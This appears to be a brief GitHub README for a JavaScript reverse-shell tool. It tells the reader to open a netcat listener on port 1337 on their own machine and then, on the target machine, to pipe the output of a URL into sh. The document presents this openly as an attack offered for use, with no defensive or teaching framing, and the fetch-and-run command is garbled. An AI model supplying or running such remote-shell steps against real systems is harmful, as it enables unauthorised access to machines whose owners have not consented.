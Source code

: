 # reverse-shell
reverse shell in javascript


# 1. Usage:
- on your machine, open up your terminal and listen for connection you can do it using netcat
` nc -l 1337`

# 2.  Execute reverse shell on target:
- on the target machine, pipe the output of the http://localhost/yourip:port | sh